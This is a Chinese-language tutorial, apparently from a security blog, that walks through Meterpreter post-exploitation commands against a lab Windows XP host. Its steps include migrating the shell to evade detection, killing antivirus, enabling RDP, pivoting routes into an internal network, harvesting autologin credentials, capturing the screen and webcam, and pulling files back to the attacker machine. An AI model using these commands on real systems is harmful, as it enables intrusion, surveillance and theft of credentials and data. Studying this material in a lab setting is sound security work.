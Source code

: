 
# 环境
攻击机：kali（192.168.1.28）<br />靶机：WinXP（192.168.1.6、10.10.10.4）<br />内网主机：Win7（10.10.10.2）


# 进程迁移
	在刚获得Meterpreter Shell时， 该Shell是 极其脆弱和易受攻击的，所以第一步就是要移动这个Shell,把它和目标机中一个稳定的进程绑定在一起，而不需要对磁盘进行任何写入操作。这样做使得渗透更难被检测到。

查看目标机正在运行的进程
```
ps
```
![](https://img-blog.csdnimg.cn/35056bad7e0c42cc9d740fac66633f8c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=nsb89&originHeight=423&originWidth=971&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看Meterpreter shell的进程号
```
getpid
```
![](https://img-blog.csdnimg.cn/33f391afdfc04c68a04490cda7aee101.png#crop=0&crop=0&crop=1&crop=1&id=ezbvE&originHeight=110&originWidth=331&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到Meterpreter shell进程的pid为1084，然后输入migrate1576命令把shell移动到pid为1528的explorer.exe.进程里，因为该进程是一个稳定的应用。
```
migrate 1528
```

再次查看Meterpreter shell的进程号，发现pid为1528，说明已经成功迁移到explorer.exe.进程里<br />![](https://img-blog.csdnimg.cn/259fcfec5fce4500b0ede45a76db9153.png#crop=0&crop=0&crop=1&crop=1&id=gdX77&originHeight=171&originWidth=535&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

也可以使用自动迁移命令，系统会自动寻找合适的进程然后迁移。
```
run post/windows/manage/migrate
```
![](https://img-blog.csdnimg.cn/051d4e46b03e452493e574966caaa00d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_19,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ZXuHg&originHeight=293&originWidth=694&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# 系统命令
查看目标机的系统信息
```
sysinfo
```
![](https://img-blog.csdnimg.cn/9e7152da6f204b2499888cef374a37c9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=k6usK&originHeight=237&originWidth=812&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

检测目标主机是否运行在虚拟机上
```
run post/windows/gather/checkvm
```
![](https://img-blog.csdnimg.cn/ad260054e3544c0aa9b365c12c4360ef.png#crop=0&crop=0&crop=1&crop=1&id=Cq4Fj&originHeight=144&originWidth=698&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看目标机最近运行的时间
```
idletime
```
![](https://img-blog.csdnimg.cn/0473119d33314d4f99e9f88e86938bbb.png#crop=0&crop=0&crop=1&crop=1&id=zBLpN&originHeight=110&originWidth=520&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看路由，可以发现10.10.10.0网段
```
route
```
![](https://img-blog.csdnimg.cn/5b18f854bed94acaa1dc9f09f7b0acbb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=vVL0C&originHeight=473&originWidth=913&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看当前目标机器上已经渗透成功的用户名
```
getuid
```
![](https://img-blog.csdnimg.cn/24573023bcdc449b934f9898b56e2aa1.png#crop=0&crop=0&crop=1&crop=1&id=RRVDK&originHeight=97&originWidth=394&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

关闭目标机系统杀毒软件（我这里没有杀毒软件）
```
run post/windows/manage/killav
```
![](https://img-blog.csdnimg.cn/09ca865442e049748ff5eece3875d60a.png#crop=0&crop=0&crop=1&crop=1&id=yK6S7&originHeight=119&originWidth=593&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

启动目标机的远程桌面
```
run post/windows/manage/enable_rdp
```
![](https://img-blog.csdnimg.cn/14c09c52e19e48658687b6989a3d849a.png#crop=0&crop=0&crop=1&crop=1&id=pFbVr&originHeight=182&originWidth=981&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

![](https://img-blog.csdnimg.cn/7c52dbced3e445dab07d6c44cf334197.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=eT1Rz&originHeight=298&originWidth=801&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```
rdesktop 192.168.1.6
```
![](https://img-blog.csdnimg.cn/6d7e17355d994c39ad3434a52dfc52b0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=UCZhh&originHeight=571&originWidth=884&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以输入background命令将当前会话放入后台，适用于有多个Meterpreter会话。

添加路由
```
background
route add 192.168.1.0 255.255.255.0 2
route print
```
![](https://img-blog.csdnimg.cn/49257b90f1f54187b4ddae3e8289b631.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=E3UZY&originHeight=401&originWidth=976&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到一条地址为192.168.1.0的路由已经被添加到已攻陷主机的路由表中，然后就可以借助被攻陷的主机对其他网络进行攻击。

例举当前有多少用户登录了目标机
```
run post/windows/gather/enum_logged_on_users
```
![](https://img-blog.csdnimg.cn/bec6286349de4159bcebec25f27617d1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=xJ1mu&originHeight=655&originWidth=965&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

例举安装在目标机上的应用程序
```
run post/windows/gather/enum_applications
```
![](https://img-blog.csdnimg.cn/07729b3c77704716b72d3aa372ba7ce4.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=qiZGC&originHeight=326&originWidth=974&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

抓取自动登录的用户名和密码。
```
run windows/gather/credentials/windows_autologin
```
![](https://img-blog.csdnimg.cn/824a8583caf046569b25cd714325c75e.png#crop=0&crop=0&crop=1&crop=1&id=SxXtD&originHeight=135&originWidth=878&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看见没有任何信息。

抓取此时目标机的屏幕截图
```
screengrab
load espia
screengrab
```

![](https://img-blog.csdnimg.cn/7903cad6ee40481fbeace3ffc3ffdc77.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=mFFew&originHeight=577&originWidth=971&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看目标机有没有摄像头输入webcam_list命令
```
webcam_list
```
![](https://img-blog.csdnimg.cn/6fad997ab96a4d938c823633d2271948.png#crop=0&crop=0&crop=1&crop=1&id=VmIIA&originHeight=100&originWidth=404&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

若是存在的话可以输入`webcam_snap`命令打开目标机摄像头，拍一张照片，输入`webcam_stream`命令可以开启直播模式

输入shell命令进入目标机shell下面，输入exit命令停止Meterpreter会话，该命令还可以用于停止shell会话返回Meterpreter。<br />![](https://img-blog.csdnimg.cn/ac86d115b0eb4393ab23ec47d4d72650.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_17,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=jEIMh&originHeight=368&originWidth=610&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# 文件系统命令
查看当前处于的目录
```
pwd
```
![](https://img-blog.csdnimg.cn/a03e8b97b6ef435b970e2f00e8749ac9.png#crop=0&crop=0&crop=1&crop=1&id=JGbwK&originHeight=101&originWidth=452&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看当前处于本地的目录
```
getlwd
```
![](https://img-blog.csdnimg.cn/eead03ab3aa34c849ed85fe578f1a8f2.png#crop=0&crop=0&crop=1&crop=1&id=hyOm6&originHeight=102&originWidth=411&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

列出当前目录的所有文件
```
ls
```
![](https://img-blog.csdnimg.cn/ccd27326d2674b709616f49419f9dd4d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=MKWpr&originHeight=520&originWidth=973&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

切换目录
```
cd
```
![](https://img-blog.csdnimg.cn/d212be3384b04e6b9fececa4b64a72d2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=op4tD&originHeight=578&originWidth=969&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

搜索文件
```
search -f *.txt -d c:/
```
![](https://img-blog.csdnimg.cn/4aac19eeaaed4e6a8730a5c407b2669f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=YQ7o8&originHeight=252&originWidth=966&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

下载文件
```
download c:/XMTX.txt /root
```
![](https://img-blog.csdnimg.cn/043edb6ba38b485984e80030951f2987.png#crop=0&crop=0&crop=1&crop=1&id=pAq6Q&originHeight=127&originWidth=640&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

上传文件
```
upload /root/XMTX1.txt c:/
```
![](https://img-blog.csdnimg.cn/3f29334508bd4bb387fc17c508177e1e.png#crop=0&crop=0&crop=1&crop=1&id=xDPq2&originHeight=134&originWidth=668&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
